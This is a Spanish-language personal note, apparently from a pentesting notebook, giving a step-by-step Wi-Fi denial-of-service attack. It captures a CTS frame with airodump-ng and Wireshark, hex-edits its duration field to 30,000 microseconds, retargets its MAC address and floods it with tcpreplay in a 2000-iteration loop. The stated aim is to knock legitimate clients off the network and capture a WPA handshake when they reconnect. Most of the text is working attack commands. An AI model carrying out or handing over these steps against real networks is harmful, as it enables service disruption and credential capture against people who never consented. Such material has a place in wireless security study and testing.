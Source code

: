 Lo que se efectuara sera la captura de la trama CTS para manipular la trama con una duracion alta y enviarlos al AP masivamente para consumir los recursos del AP y mantener los canales demasiamos ocupados como para responder a los clientes legitimos.

![[Pasted image 20221021143641.png]]

Esto llevara a un secuestro de ancho de banda y posiblemente el usuario pase a desautenticarse de la red y volverse a autenticar y con esto tendremos un handshake.

![[Pasted image 20221021130823.png]]


## Attack
Para este primero nesecitamos capturar un trazas CTS que halla sido enviado al AP victima.
Capturaremos el trafico con airodump-ng y lo guardaremos en un archivo.

	airodump-ng -w CapturasCTSFrame -c 6 --essid White wlan0mon

Dejado pasar un par de segundo paramos la captura y la abrimos con [[Tshark]], filtraremos por los paquetes CTS, que corresponde al siguiente filtro *wlan.fc.type_subtype\==28*.

	tshark -r CapturaCTSFrame -Y "wlan.fc.type_subtype==28" -Tfields wlan.duration 2>/dev/null | short -u
-r *Leer un archivo*
-Y *Aplicar un filtro*
-Tjson *Filtra toda la informacion en json*
-Tfields  -e wlan.duration *Filtra por un campo*
-short -u *Ordena y solodeja campos unicos*

Para mayor comodidad lo abrimos con [[WireShark]] en segundo plano(proceso hijo).

	wireshark CapturaCTSFrame > /dev/null 2>&1 &

Aplicamos un ```disown``` para que este proceso se covierta en un proceso padre y no dependa de nadie.
Despues aplicamos el fitro para lo trama CTS *wlan.fc.tyoe_subtype\==28* y exportamos dicho trama selecionado.
Posteriormente vamos a editar la duracion de este trama, estas tramas se encuentra en hexadecimal por lo tanto tenemos que abrirlo en ese formato.

	apt install ghex -y
ghex no permite interpretar el hexadecimal

	ghex ctsframe > /dev/null 2>&1 &
	disown

![[Pasted image 20221024074604.png]]
Ahora si modificaremos el campo de duracion recordando la estructura del trama CTS.

![[Pasted image 20221021130823.png]]
Los ultimos 6 pares seria la direccion MAC del AP y despues los 2 pares de la duracion, pero estos 2 pares estan 00 00, esto es por que la trama de capturo con *airodump-ng* y aqui pueden salir falso-positivos como sucedio aqui.

Es por eso que se debe de capturar la trama por wireshark, para esto abrimos wireshark y analisamos la red hasta encontrar un CTS para despues exportarlo como *.pcap*.

Como se puede observar en wireshark tien un preview del paquete en hex, y aqui podemos ver mas claro donde se encuentra la duracion.
![[Pasted image 20221024080653.png]]
84 00 estos pares serian la duracion, pero esto se lee a la inversa 00 84, verifiquemolo en python3

	python3
	0x0084

Ahora la intencion es modificar esta duracion para que la trama dure 30,000 microsegundos como valor tope, para esto debemos de convertir este valor a hexadecimal e insertarlo en la trama capturada.

	python3
	hex(30000)
	output: 0x7530

![[Pasted image 20221024081707.png]]

Ahora recordadon de los 6 ultimos pares son la direccion MAC del destino, vamos a reemplazarla por la MAC de quien queremos atacar.

Despues abrimos el frame con wireshark para ver posibles advertencias, eso dejaria en claro si lo modificamos correctamente.
![[Pasted image 20221024082617.png]]
Y bien una vez hecho esto nuestra trama esta lista para ser enviada.

Para esto utlizaremos la herramienta *tcpreplay* que nos permite replicar trazas TCP.

	tcpreplay --intf1=wlan0mon --topspeed --loop=2000 ctsframe.pcap 2>/dev/null

--intf1= *Asignamos la tarjeta de red*
-\-topspeed *Para enviar los paquetes a la maxima velocidad y no esperar a que se envie un paquete y despues otro sucesivamente*
-\-loop=2000 *Bucle de 2000 es decir 2000 trazas enviadas*
ctsframe.pcap *La trama enviada*

Con esto se congestionara la red y provocar un expulsion de usuarios legitimos.
